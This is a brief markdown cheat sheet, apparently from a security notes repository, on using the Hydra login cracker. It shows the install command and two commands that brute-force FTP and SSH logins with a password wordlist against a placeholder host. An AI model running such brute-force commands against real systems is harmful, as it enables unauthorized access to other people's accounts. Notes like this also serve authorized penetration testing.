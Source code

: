 # Hydra (Parallelized login cracker)

```bash
# Install hydra tool
sudo apt install hydra

# Cracking FTP service
hydra -t 4 -l USER -P wordlist.txt -vV TARGET-HOST ftp

# Cracking SSH service
hydra -t 16 -l USER -P wordlist.txt -vV TARGET-HOST ssh
```
